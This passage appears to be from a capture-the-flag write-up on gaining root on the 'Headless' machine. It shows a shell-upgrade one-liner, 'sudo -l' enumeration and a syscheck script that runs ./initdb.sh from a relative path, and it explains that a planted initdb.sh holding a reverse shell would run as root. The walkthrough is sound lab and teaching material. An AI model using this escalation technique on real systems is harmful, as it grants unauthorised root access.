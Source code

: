 First of all upgrade the current reverse shell to a more easy to use shell using python 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next i ran the command i always run first when landing on a machine sudo -l to check if this user is able to execute any commands as root. here we could see that the user was allowed to run **/usr/bin/syscheck** as root.

```bash
sudo -l 
```
![Dashboard](/assets/img/Headless/Headless_10.png)

So the first step would be to check out what this file is. Upon inspection it seems to be a bash script which we can check the contents of with the cat command

```bash
cat /usr/bin/syscheck
```

Looking through the script the attack vector becomes very clear. The script below calls **./initdb.sh** script from a relative path. This means we could just run this file from a location that doesn't have the file originally and then we just create our own with a reverse shell.

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
